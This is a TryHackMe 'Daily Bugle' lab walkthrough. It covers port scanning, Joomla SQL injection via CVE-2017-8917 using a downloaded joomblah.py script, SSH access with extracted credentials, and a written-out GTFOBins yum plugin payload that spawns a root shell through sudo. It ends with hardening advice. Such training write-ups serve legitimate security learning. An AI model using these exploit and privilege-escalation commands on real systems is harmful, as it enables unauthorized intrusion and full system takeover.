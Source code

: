 ```yaml
---
date: '2025-02-02T00:35:49+05:30'
draft: false
title: 'Daily Bugle: TryHackMe Walkthrough'
slug: daily-bugle-thm
tags: ["tryhackme", "joomla", "sql-injection", "yum", "gtfobins"]
category: writeups
showtoc: true
summary: A walkthrough of the Daily Bugle room on TryHackMe, demonstrating Joomla exploitation, SQL injection, and privilege escalation via yum
description: Learn how to exploit a vulnerable Joomla CMS, perform SQL injection using CVE-2017-8917, and escalate privileges using yum GTFO technique
---
```


# Daily Bugle: TryHackMe Walkthrough

## Initial Enumeration

### Nmap Scan Results
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
3306/tcp open  mysql   MariaDB (unauthorized)
```

Key findings:
- Joomla CMS running on port 80
- MariaDB on port 3306
- OpenSSH 7.4

### Web Enumeration
From robots.txt, discovered multiple disallowed entries:
```
/joomla/administrator/
/administrator/
/bin/
/cache/
/cli/
/components/
/includes/
/installation/
/language/
/layouts/
/libraries/
/logs/
/modules/
/plugins/
/tmp/
```

## Vulnerability Assessment

### Joomla Exploitation
1. Identified vulnerable Joomla version
2. Used CVE-2017-8917 for SQL injection
   - [Exploit reference](https://www.exploit-db.com/exploits/42033)
   - Alternative: [joomblah.py script](https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py)

### SQL Injection Process
1. Download exploit:
```bash
wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
```

2. Execute against target:
```bash
python joomblah.py http://target-ip
```

3. Extract user credentials from the database dump

## Initial Access

### SSH Access
1. Successfully obtained credentials for user 'jjameson'
2. SSH login:
```bash
ssh jjameson@target-ip
```

## Privilege Escalation

### Enumeration
Check sudo permissions:
```bash
sudo -l
```

### Yum Privilege Escalation
1. Found yum with sudo privileges
2. Used GTFOBins technique for yum:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

## Best Practices

1. **Web Application Security**
   - Keep CMS systems updated
   - Implement proper access controls
   - Regular security audits

2. **Database Security**
   - Strong password policies
   - Limited network access
   - Regular backups

3. **System Hardening**
   - Restrict sudo permissions
   - Monitor privileged commands
   - Regular security patches

## Tools Used

1. **Enumeration**
   - Nmap for port scanning
   - Web browser for initial recon
   - robots.txt analysis

2. **Exploitation**
   - joomblah.py for SQL injection
   - SSH client for access
   - GTFOBins for privilege escalation

## Additional Notes

1. **Target Hardening**
   - Update Joomla to latest version
   - Implement WAF protection
   - Review sudo permissions

2. **Detection & Prevention**
   - Enable detailed logging
   - Implement IDS/IPS
   - Regular security assessments

## References

1. [CVE-2017-8917 Details](https://www.exploit-db.com/exploits/42033)
2. [Joomla Security Documentation](https://docs.joomla.org/Security_Checklist)
3. [GTFOBins - Yum](https://gtfobins.github.io/gtfobins/yum/)
4. [TryHackMe - Daily Bugle](https://tryhackme.com/)
